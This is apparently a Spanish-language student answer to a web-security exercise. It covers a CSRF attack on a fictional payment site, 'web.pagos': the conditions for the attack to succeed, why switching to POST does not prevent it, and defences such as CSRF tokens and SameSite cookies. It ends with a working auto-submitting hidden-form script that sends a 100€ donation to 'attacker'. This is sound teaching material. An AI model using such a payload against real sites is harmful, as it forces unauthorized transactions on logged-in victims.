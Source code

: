    **Condiciones para la efectividad del ataque CSRF en 'web.pagos':**
    
    1. **Autenticación de la Víctima:**
    Para que la donación se procese, el usuario que hace clic en el enlace o envía el formulario automáticamente debe estar autenticado en 'web.pagos'. Esto implica que la víctima haya iniciado sesión y mantenga una sesión activa en 'web.pagos'. Los ataques CSRF aprovechan la persistencia de la sesión del usuario, lo que puede ser explotado en estos casos.
    2. **Presencia de Fondos:**
    Es fundamental que la cuenta del usuario autenticado tenga fondos suficientes para cubrir la donación especificada. Si la cuenta carece de fondos, la transacción no se completará, independientemente de la ejecución exitosa del ataque CSRF.
    3. **Permisos de Transacción:**
    El usuario debe tener los permisos adecuados para realizar transacciones de donación. Si 'web.pagos' aplica políticas de seguridad adicionales, como límites de transacción diarios o requisitos de confirmación adicionales, estos podrían impedir que el ataque tenga éxito.
    
    d) Si 'web.pagos' modifica la página 'donate.php' para que reciba los parámetros a través de POST, quedaría blindada contra este tipo de ataques? En caso negativo, preparad un mensaje que realice un ataque equivalente al de la apartado b) enviando los parámetros “amount” i “receiver” por POST
    
    La simple modificación de 'donate.php' para cambiar de GET a POST no es suficiente para proteger contra ataques CSRF. Aunque este cambio dificulta el ataque, todavía se pueden realizar ataques usando formularios ocultos o peticiones AJAX.
    
    Una estrategia común en estos casos es ocultar un formulario con valores predefinidos, que se envía automáticamente cuando un usuario visita la página. Esto podría llevar a una donación no autorizada de 100€ sin que el usuario lo sepa.
    
    Para una protección más sólida, es crucial implementar medidas adicionales, como el uso de tokens CSRF dinámicos ligados a la sesión del usuario. Estos tokens, incluidos en los formularios, deben validarse en el servidor antes de procesar cualquier solicitud de donación. También se puede considerar configurar la política SameSite en las cookies para reducir aún más el riesgo de ataques CSRF.
    
    ```html
    <script>
        // Creamos el formulario de manera dinámica
        var csrfForm = document.createElement('form');
        csrfForm.setAttribute('action', 'http://web.pagos/donate.php');
        csrfForm.setAttribute('method', 'POST');
    
        // Creamos e insertamos los campos ocultos
        var amountInput = document.createElement('input');
        amountInput.setAttribute('type', 'hidden');
        amountInput.setAttribute('name', 'amount');
        amountInput.setAttribute('value', '100');
        csrfForm.appendChild(amountInput);
    
        var receiverInput = document.createElement('input');
        receiverInput.setAttribute('type', 'hidden');
        receiverInput.setAttribute('name', 'receiver');
        receiverInput.setAttribute('value', 'attacker');
        csrfForm.appendChild(receiverInput);
    
        // Creamos y simulamos el envío del formulario automáticamente al cargar la página
        document.addEventListener('DOMContentLoaded', function() {
            document.body.appendChild(csrfForm);
            csrfForm.submit();
        });
    </script>
    